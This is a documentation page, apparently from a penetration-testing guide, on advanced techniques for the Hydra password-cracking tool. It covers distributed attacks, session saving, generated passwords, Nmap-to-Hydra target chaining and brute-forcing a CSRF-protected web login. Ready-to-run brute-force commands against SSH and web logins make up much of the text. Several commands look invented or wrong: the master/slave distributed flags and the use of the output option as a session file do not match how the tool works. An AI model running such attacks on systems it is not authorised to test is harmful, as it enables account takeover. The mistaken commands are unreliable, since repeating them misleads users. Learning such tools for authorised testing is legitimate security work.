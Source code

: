 ```yaml
---
title: Hydra Advanced Techniques
description: Advanced techniques and strategies for using Hydra in penetration testing
---
```



# Hydra Advanced Techniques

This section covers advanced techniques and strategies for using Hydra in penetration testing scenarios. These techniques will help you optimize your password cracking attempts, improve success rates, and handle complex authentication systems.

## Overview of Advanced Techniques

Hydra offers several advanced capabilities that go beyond basic brute force attacks:

1. **Performance Tuning**: Optimize attack speed and resource usage
2. **Custom Modules**: Create or modify protocol modules for specialized targets
3. **Distributed Attacks**: Coordinate attacks across multiple systems
4. **Advanced Authentication Handling**: Deal with complex authentication flows
5. **Wordlist Manipulation**: Create and optimize wordlists for specific targets

## When to Use Advanced Techniques

Advanced techniques are particularly useful in the following scenarios:

- When basic attacks are too slow or inefficient
- When targeting custom or non-standard authentication systems
- When dealing with rate limiting or lockout mechanisms
- When standard modules don't support your target's specific implementation
- When you need to coordinate large-scale testing across multiple systems

## Key Advanced Features

### Distributed Attack Coordination

Hydra supports distributed attacks across multiple systems:

```bash
# On master node
hydra -l admin -P passwords.txt -M targets.txt ssh -T 64 -g 3000 -G 3001

# On slave nodes
hydra -l admin -P passwords.txt -M targets.txt ssh -T 64 -g 3000 -G 3001 -U
```

### Session Management

Hydra can save and restore attack sessions:

```bash
# Start an attack with session saving
hydra -l admin -P passwords.txt -o session.hydra ssh://192.168.1.100

# Restore a previous session
hydra -R -o session.hydra
```

### Custom Password Generators

Instead of using static wordlists, you can generate passwords on-the-fly:

```bash
# Generate passwords using a pattern
hydra -l admin -x 3:5:a ssh://192.168.1.100

# Generate passwords with specific character sets
hydra -l admin -x 3:5:aA1! ssh://192.168.1.100
```

Where:
- First number is minimum length
- Second number is maximum length
- Characters specify the character set:
  - a: lowercase letters
  - A: uppercase letters
  - 1: numbers
  - !: special characters

## Advanced Use Cases

### Chaining with Other Tools

Hydra works well as part of a larger penetration testing workflow:

```bash
# Use Nmap to discover services
nmap -p 22,80,443,3306 192.168.1.0/24 -oG services.txt

# Extract targets for Hydra
grep "open" services.txt | grep "ssh" | cut -d " " -f 2 > ssh_targets.txt

# Run Hydra against discovered targets
hydra -L usernames.txt -P passwords.txt -M ssh_targets.txt ssh
```

### Targeting Web Applications with Complex Authentication

For web applications with multi-step authentication:

```bash
# First request to get CSRF token
curl -c cookies.txt https://example.com/login > login.html

# Extract token
csrf=$(grep -o 'name="csrf" value="[^"]*"' login.html | cut -d '"' -f 4)

# Use token in Hydra attack
hydra -l admin -P passwords.txt https://example.com http-post-form "/login:username=^USER^&password=^PASS^&csrf=$csrf:F=Login failed:H=Cookie: $(cat cookies.txt | grep -v '^#' | paste -sd ';')"
```

## Next Steps

Explore the following sections to learn more about advanced Hydra techniques:

- [Performance Tuning](/docs/hydra/advanced-techniques/performance-tuning) - Optimize Hydra for speed and efficiency
- [Custom Modules](/docs/hydra/advanced-techniques/custom-modules) - Learn how to create custom protocol modules
- [Protocol-Specific Guides](/docs/hydra/protocol-guides) - Detailed guides for specific protocols
- [Best Practices](/docs/hydra/best-practices) - Learn best practices for effective and ethical use of Hydra

